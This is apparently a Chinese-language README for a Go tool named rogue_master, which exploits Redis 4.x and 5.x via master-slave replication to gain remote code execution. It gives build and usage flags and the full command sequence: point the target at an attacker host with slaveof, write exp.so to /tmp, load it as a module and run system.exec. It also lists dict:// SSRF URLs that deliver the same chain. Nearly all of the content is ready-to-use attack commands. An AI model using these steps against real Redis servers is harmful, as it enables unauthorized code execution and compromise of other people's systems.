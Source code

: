 # Redis 主从复制rce

漏洞影响版本 Redis4.x 5.x

## 利用方式

执行`go build -o rogue_master main.go`编译出可执行文件
默认启动rogue_master即可

```text
Usage of ./rogue_master:
  -lhost string
        listen host (default "0.0.0.0")
  -lport string
        listen port (default "21000")
  -os string
        payload (lin|osx) (default "lin")
```


```bash
slaveof ip port
config set dir /tmp
config set dbfilename exp.so
quit
```

```bash
slaveof no one
module load /tmp/exp.so
system.exec 'env'
quit
```

## 其他

dict或者gopher协议皆可

```text
dict://db:6379/config:set:dir:/tmp
dict://db:6379/config:set:dbfilename:exp.so
dict://db:6379/slaveof:ip:port
dict://db:6379/module:load:/tmp/exp.so
dict://db:6379/slave:no:one
dict://db:6379/system.exec:env
dict://db:6379/module:unload:system
```